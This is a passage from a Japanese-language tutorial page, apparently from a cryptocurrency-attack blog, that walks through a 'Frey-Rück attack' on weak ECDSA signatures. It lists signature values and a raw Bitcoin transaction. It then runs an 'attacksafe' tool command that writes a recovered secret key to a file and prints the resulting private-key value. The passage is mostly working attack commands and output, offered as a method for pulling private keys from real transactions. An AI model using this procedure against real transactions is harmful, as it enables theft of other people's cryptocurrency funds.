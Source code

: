 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-54-1024x261.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-994"/></figure>



<pre class="wp-block-code"><code>R = 0x3458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d
S = 0x445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d0913
Z = 0x8b65d49dde9949e5ea18ae637d7f4f48c7c3b38957892a94a3bab994fec4eee7</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-55-1024x313.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-996"/></figure>



<p>この攻撃は から開始され<code>-tool frey_ruck_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>



<p>成功した結果を確認するには、ファイルを開きます<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-57-1024x466.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-999"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xa63d1fe332773809f41bc0d67262088d918a34a71444e30c19424c64b13e6e3c
